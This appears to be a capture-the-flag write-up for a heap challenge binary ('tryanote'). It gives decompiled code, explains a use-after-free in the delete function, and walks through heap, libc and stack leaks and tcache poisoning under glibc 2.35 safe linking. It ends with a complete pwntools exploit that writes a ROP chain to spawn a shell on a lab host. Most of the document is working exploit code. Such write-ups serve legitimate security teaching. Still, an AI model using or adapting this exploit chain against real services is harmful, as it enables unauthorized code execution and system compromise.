

## Description

	I'm very confident in my skills and I bet you cannot find any issues with my service.

### Security Mitigations

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
RUNPATH:    b'.'
Stripped:   No
```


### Decompilation

#### main()

```C
undefined8 main(void)

{
  int iVar1;
  
  setup();
  banner();
  while( true ) {
    menu();
    iVar1 = read_opt();
    if (iVar1 == 0) break;
    switch(iVar1) {
    case 1:
      create();
      break;
    case 2:
      show();
      break;
    case 3:
      update();
      break;
    case 4:
      delete();
      break;
    case 5:
      win();
    }
  }
  return 0;
}
```

#### create()

```C
undefined8 create(void)

{
 uint uVar1;
 uint uVar2;
 undefined8 uVar3;
 void *pvVar4;
 
 if ((int)index < 0x20) {
   if (*(long *)(chunks + (long)(int)index * 8) != 0) {
     puts("Index is already occupied. Skipping.");
     index = index + 1;
   }
   puts("Enter entry size:");
   uVar2 = read_opt();
   uVar1 = index;
   if ((uVar2 < 0x1001) && (uVar2 != 0)) {
     pvVar4 = malloc((ulong)uVar2);
     *(void **)(chunks + (long)(int)uVar1 * 8) = pvVar4;
     if (*(long *)(chunks + (long)(int)index * 8) == 0) {
      puts("Memory allocation failed.");
      uVar3 = 0xffffffff;
     }
     else {
      *(uint *)(sizes + (long)(int)index * 4) = uVar2;
      puts("Enter entry data:");
      read(0,*(void **)(chunks + (long)(int)index * 8),(ulong)uVar2);
      printf("Entry created at index %d\n",(ulong)index);
      index = index + 1;
      uVar3 = 0;
     }
   }
   else {
     puts("Invalid entry size");
     uVar3 = 0xffffffff;
   }
 }
 else {
   puts("No more entries can be created.");
   uVar3 = 0xffffffff;
 }
 return uVar3;
}
```
#### show()

```C
undefined8 show(void)

{
 uint uVar1;
 
 puts("Enter entry index:");
 uVar1 = read_opt();
 if ((uVar1 < 0x20) && (*(long *)(chunks + (ulong)uVar1 * 8) != 0)) {
   puts(*(char **)(chunks + (ulong)uVar1 * 8));
 }
 else {
   puts("Invalid index");
 }
 return 0;
}
```
#### update()

```C
undefined8 update(void)

{
 uint uVar1;
 undefined8 uVar2;
 
 puts("Enter entry index:");
 uVar1 = read_opt();
 if ((uVar1 < 0x20) && (*(long *)(chunks + (ulong)uVar1 * 8) != 0)) {
   puts("Enter data:");
   read(0,*(void **)(chunks + (ulong)uVar1 * 8),(long)*(int *)(sizes + (ulong)uVar1 * 4));
   uVar2 = 0;
 }
 else {
   puts("Invalid entry index");
   uVar2 = 0xffffffff;
 }
 return uVar2;
}
```
#### delete()

```C
undefined8 delete(void)

{
 uint uVar1;
 undefined8 uVar2;
 
 puts("Enter entry index:");
 uVar1 = read_opt();
 if ((uVar1 < 0x20) && (*(long *)(chunks + (ulong)uVar1 * 8) != 0)) {
   free(*(void **)(chunks + (ulong)uVar1 * 8));
   puts("Entry deleted successfully");
   uVar2 = 0;
 }
 else {
   puts("Invalid index");
   uVar2 = 0xffffffff;
 }
 return uVar2;
}
```


#### We have a classic heap challenge with an obvious Use-After-Free due to the binary not zeroing out the pointer in the chunks array after a chunk is freed. We can use this to leak heap, LIBC, and stack addresses and then write a ROP chain into the saved RIP of main().

#### To leak our heap and LIBC addresses we will allocate three chunks in the following order.

```python
create(0x20, b'AAAA')   # Use the UAF to leak heap base
create(0x500, b'BBBB')  # Leak LIBC from unsorted bin
create(0x20, b'CCCC')   # Prevent the large chunk from joining top chunk
```

#### We will then free the first chunk and show it to leak the heap base.

```python
delete(0)

heap_base = u64(read(0).ljust(8, b'\x00')) << 12
info(f'heap base: {hex(heap_base)}')
```

#### Now we free the large chunk into the unsorted bin and get our LIBC leak.

```python
delete(1)

libc_leak = u64(read(1).ljust(8, b'\x00'))
info(f'libc leak: {hex(libc_leak)}')

libc.address = libc_leak - 0x219ce0
info(f'libc base: {hex(libc.address)}')
```

#### Now that we have a LIBC leak we can poison the tcache with a pointer to LIBC environ to get a stack leak. Due to this challenge using GLIBC 2.35 safe linking is enabled so we will have to account for that. 

```python
create(0x50, b'aaaa')
create(0x50, b'bbbb')

delete(3)
delete(4)

update(4, p64(heap_base >> 12 ^ (libc.symbols.environ-0x10)))

create(0x50, b'cccc')
create(0x50, b'd' * 0xf)

read(6)
stack_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
info(f'stack leak: {hex(stack_leak)}')

saved_rbp = stack_leak - 0x128
info(f'saved rbp: {hex(saved_rbp)}')
```

#### Now that we have all of our required leaks we poison the tcache one last time with our stack pointer and write a ROP chain to the stack and finally exit the program.

```python
rop = ROP(libc)
ropchain = b'A' * 8
ropchain += p64(rop.find_gadget(['pop rdi','ret'])[0])
ropchain += p64(next(libc.search(b'/bin/sh\x00')))
ropchain += p64(rop.find_gadget(['ret'])[0])
ropchain += p64(libc.symbols.system)


create(0x100, b'pwn')
create(0x100, b'pwn')

delete(7)
delete(8)

update(8, p64(heap_base >> 12 ^ saved_rbp))

create(0x100, b'pwned')
create(0x100, ropchain)

p.sendline(b'0')
p.recvrepeat(1)

print('*** SHELL ***')
p.interactive()
```

#### All of this put together allows us to obtain a shell on the target




### Full Exploit

```python
from pwn import *

context.binary = binary = ELF('./tryanote_patched',checksec=False)
libc = ELF('libc.so.6',checksec=False)

def create(size, data):
        p.sendlineafter(b'>>', b'1')
        p.sendlineafter(b'Enter entry size:\n', str(size).encode())
        p.sendlineafter(b'Enter entry data:\n', data)

def read(idx):
        p.sendlineafter(b'>>', b'2')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())

        return p.recvline()[:-1]

def update(idx, data):
        p.sendlineafter(b'>>', b'3')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())
        p.sendlineafter(b'Enter data:\n', data)

def delete(idx):
        p.sendlineafter(b'>>', b'4')
        p.sendlineafter(b'Enter entry index:\n', str(idx).encode())


#p = process()
p = remote('10.10.26.107', 5001)

create(0x20, b'AAAA')
create(0x500, b'BBBB')
create(0x20, b'CCCC')

delete(0)

heap_base = u64(read(0).ljust(8, b'\x00')) << 12
info(f'heap base: {hex(heap_base)}')

delete(1)

libc_leak = u64(read(1).ljust(8, b'\x00'))
info(f'libc leak: {hex(libc_leak)}')

libc.address = libc_leak - 0x219ce0
info(f'libc base: {hex(libc.address)}')

create(0x50, b'aaaa')
create(0x50, b'bbbb')

delete(3)
delete(4)

update(4, p64(heap_base >> 12 ^ (libc.symbols.environ-0x10)))

create(0x50, b'cccc')
create(0x50, b'd' * 0xf)

read(6)
stack_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
info(f'stack leak: {hex(stack_leak)}')

saved_rbp = stack_leak - 0x128
info(f'saved rbp: {hex(saved_rbp)}')

rop = ROP(libc)
ropchain = b'A' * 8
ropchain += p64(rop.find_gadget(['pop rdi','ret'])[0])
ropchain += p64(next(libc.search(b'/bin/sh\x00')))
ropchain += p64(rop.find_gadget(['ret'])[0])
ropchain += p64(libc.symbols.system)

create(0x100, b'pwn')
create(0x100, b'pwn')

delete(7)
delete(8)

update(8, p64(heap_base >> 12 ^ saved_rbp))

create(0x100, b'pwned')
create(0x100, ropchain)

p.sendline(b'0')
p.recvrepeat(1)

print('*** SHELL ***')
p.interactive()
```